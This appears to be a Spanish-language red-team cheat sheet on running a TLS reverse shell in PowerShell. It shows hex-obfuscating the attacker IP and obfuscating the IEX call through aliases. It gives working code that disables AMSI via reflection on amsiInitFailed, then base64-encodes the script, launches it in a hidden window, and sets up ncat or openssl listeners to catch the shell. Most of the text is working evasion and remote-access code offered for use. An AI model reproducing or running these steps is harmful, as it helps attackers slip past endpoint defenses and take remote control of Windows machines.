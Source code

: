 ## **TCP Reverse Shell mediante TLS en Powershell**

Todos los agradecimientos a estos dos enlaces, es puro virtuosismo lo que hay ahí, esto no es más que un copia y pega:

https://0xdarkvortex.dev/index.php/2019/07/17/red-team-ttps-part-1-amsi-evasion/

https://github.com/3v4Si0N/HTTP-revshell

**1.- Ofuscar la IP**

Básicamente se trata de crear los valores en hexadecimal:

```
printf "%x,%x,%x,%x\n" 192 168 11 34
c0,a8,b,22
```

```powershell
$px = "c0","a8","b","22"
$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.'
```

**2.- Ofuscar la cadena IEX**

Establecemos un alias con los valores de una cadena aleatoria, extrayendo la cadena con los índices del array:

```powershell
$x = "new-exercise"
Set-alias $x  ($x[$true-4] + ($x[[byte]("0x" + "FF") - 263]) + $x[[byte]("0x" + "ba") - 193]) .'
```
Aquí otro método que he visto, pero la idea es utilizar el tuyo propio:
```powershell
[array]$shurmano = "I","n","t","E","r","n","e","X" ;
set-alias new-exercise $($shurmano | foreach { if ($_ -cmatch '[A-Z]' -eq $true) {$x += $_}}; $x)
```

**3.- Una vez ofuscado, deshabilitar AMSI para lanzar script**

Echad un vistazo a la función PatchMe del [tls reverse shell](https://github.com/g4ngli0s/chuletas/blob/master/bypasspowershell/tlsrevshell.ps1) donde lo que realmente hace es cifrar esto:

```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('Syste' + 'm.Ref' + 'lect' + 'ion.Bi' + 'ndi' + 'ngF' + 'lags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('Syste' + 'm.Typ' +
 'e')), [Object]([Ref].Assembly.GetType('Syste' + 'm.Man' + 'agemen' + 't.Automa' + 'tion.Am' + 'siU' + 'ti' + 'ls')),('GetF' + 'ield')).Invoke('am' + 'siIn' + 'itFai' + 'led',(('NonPu' + 'blic,S' + 'tatic') -as [String].Assembly
.GetType('Syste' + 'm.Refl' + 'ection.B' + 'indingF' + 'lags'))).SetValue($null,$True)
```

**4.- Pasar el script de powershell a base64**

```
cat tlsrevshell.ps1 | iconv -f UTF8 -t UTF16LE | base64 -w 0
```

**5.- Ejecutarlo desde consola PS**

```
powershell -noP -sta -w 1 -enc ENC64SCRIPT
```

Como muestra de estás técnicas os dejo el [TCP reverse shell con TLS](https://github.com/g4ngli0s/chuletas/blob/master/bypasspowershell/tlsrevshell.ps1), como listener en vuestra máquina kali podéis usar ncat u openssl:

```
ncat --allow <IP> -vnl <PORT> --ssl
```
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```

